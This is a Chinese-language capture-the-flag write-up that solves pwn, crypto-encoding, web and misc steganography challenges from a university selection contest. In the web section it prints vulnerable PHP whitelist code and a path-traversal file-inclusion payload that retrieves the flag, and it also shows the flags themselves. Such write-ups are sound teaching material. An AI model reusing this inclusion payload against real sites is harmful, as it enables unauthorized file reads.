## NTU选拔赛WriteUp

### PWN

#### 1.pwn1

> Hint:
>
> so easy
>
> 附件： https://www.lanzous.com/i6ve49e 

* 下载下来，用 `IDA` 打开，即可看到

  


### CryPto

#### 1. oK?

>  学长收到一封奇怪的信件....你能帮忙解开吗 
>
> 附件： https://www.lanzous.com/i6ve42h 

* 下载附件，可以看到：

  

* 想到 Ook!编码，在线转文本，即可得到flag： https://www.splitbrain.org/services/ook 

  



#### 2.凯撒到了寺庙

> 今天星期6，凯撒到了寺庙，住持对他说：
>
> 佛曰：迦得遠集盡缽羯娑哆智盡南諸顛都冥跋奢利呐沙怯苦夢竟怛陀悉梵伊冥波漫冥沙沙皤盧哆道朋諳伽俱勝娑婆罰不呐殿都侄提亦俱恐奢朋諦諸怯密梵訶俱遮罰喝呐栗梵得耶缽遠侄等逝梵悉老俱心婆諳知盡者有輸槃缽怛陀哆是奢遠皤上哆迦皤佛。礙。奢多皤遮諳苦缽夢怯大哆所阿

* 想到与佛论禅：  http://keyfc.net/bbs/tools/tudoucode.aspx 
* 复制到` 佛家妙语`，点击 `参悟佛所言真意`，得到一串字符串：`tzaizl{rkgxtotm sgqky eua ngvve}`



* 已经可以看出是简单地字符移位，题目提示今天星期六，凯撒密码试试，得到flag



#### 3.栅栏在最里面

>   3天后一封和之前类似的奇怪信件又放在了学长家的栅栏外....... 
>
> 附件： https://www.lanzous.com/i6ve45a 

* 打开看看：

  

* 想到 Brainfuck编码，在线转文本:  https://tool.bugku.com/brainfuck/ 可得到一串字符：`bmN7ZW91ZXR0YeKAgnVwdHVmcnnigIJzfQ==`

* base64 解密得到：`nc{eouetta uptufry s}`



* 根据题目提示，想到栅栏密码，栏数应该为三，得到flag

  

### WEB

#### 1.funny

>  http://210.29.65.91:32772/ 

* 访问首页，就一张表情图，和一个链接，点击得到提示：` flag not here, and flag in ffffllllaaaagggg `

* 回到首页，右键审查元素得到提示：source.php

  

* 访问： http://210.29.65.91:32772/source.php 

可以看得source.php的源码：

``` php
<?php
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

* 代码审计可以看出, 定义了白名单：

``` 
 $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

* 利用截取漏洞

  ``` php
  $_page = mb_substr(
                  $_page,
                  0,
                  mb_strpos($_page . '?', '?')
              );
  ```

* 构造payload,得到flag

  ``` 
  http://210.29.65.91:32772/index.php?file=hint.php?/../../../../ffffllllaaaagggg
  ```

   ntuctf{76e113554cfc4a571a1f2d745b8f33ebb2146b6f} 

### MSIC

#### 1.签到题

> 附件： https://www.lanzous.com/i6vf04b 

* 一张二维码，扫一下就可以得到flag

####  2.没有密码哦

> 附件： https://www.lanzous.com/i6ve43i 

* 一个压缩包，解压需要密码，有根据题目提示，想到伪密码，拖到kali 里面直接提取

* 得到一串Unicode编码的字符串，

  ``` 
  \u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0030\u0031\u0031\u0031\u0030\u0031\u0030\u0030\u0030\u0031\u0031\u0031\u0030\u0031\u0030\u0031\u0030\u0031\u0031\u0030\u0030\u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0031\u0030\u0030\u0030\u0031\u0031\u0030\u0030\u0031\u0031\u0030\u0030\u0031\u0031\u0031\u0031\u0030\u0031\u0031\u0030\u0031\u0030\u0030\u0031\u0030\u0030\u0031\u0030\u0030\u0031\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0031\u0031\u0030\u0030\u0031\u0031\u0030\u0031\u0031\u0030\u0030\u0030\u0030\u0031\u0030\u0031\u0031\u0030\u0031\u0030\u0030\u0031\u0030\u0031\u0031\u0030\u0030\u0031\u0030\u0030\u0030\u0030\u0031\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0031\u0030\u0030\u0031\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0031\u0031\u0030\u0030\u0030\u0030\u0030\u0031\u0031\u0030\u0030\u0030\u0030\u0031\u0030\u0031\u0031\u0031\u0030\u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0031\u0031\u0030\u0031\u0031\u0031\u0031\u0030\u0031\u0031\u0031\u0030\u0030\u0031\u0030\u0030\u0031\u0031\u0030\u0030\u0031\u0030\u0030\u0030\u0031\u0031\u0031\u0031\u0031\u0030\u0031
  ```

  

  [转成中文得到](http://www.bejson.com/convert/unicode_chinese/):

  ``` 
  0110111001110100011101010110001101110100011001100111101101001001001000000111001101100001011010010110010000100000011011100110111100100000011100000110000101110011011100110111011101101111011100100110010001111101
  ```

* 字符长度为208，能被8整除，利用二进制转字符串得到flag

  



#### 3.可惜没如果

> hint: password  AWSL
>
> 附件： https://www.lanzous.com/i6ve44j 

* 解压得到一段音频，首先想到利用mp3stego 进行解密, 发现需要密码，根据题目提示，输入密码  AWSL ：

  

* 解密后，在输出文件找到flag 

  



#### 4.你绝望了吗

> 附件： https://www.lanzous.com/i6ve41g 

* 下载后解压得到一张图片 ntu.png，一个压缩包，压缩包解压需要密码，但我们预览可以看到，压缩包内同样包含ntu.png，这时可以猜想是明文破解：

  

* 验证猜想，将ntu.png压缩，对比CRC32, 发现一致，就可以肯定是明文破解了

  

* 用 ARCHPR 进行明文破解，得到口令：

  

  

> 注意：如果软件又报错提示，说明你和出题者所用的压缩软件不一样，winRAR, 7z,  2345好压，Bandizip等都试一下吧：
>
> 

* 解压压缩包后，得到两张图片，将名为ffllaagg.jpg的图片拖到kali里面用 binwalk 分析一下，发现 里面隐藏flag.txt 文件



* foremost 分离一下即可得到flag

  

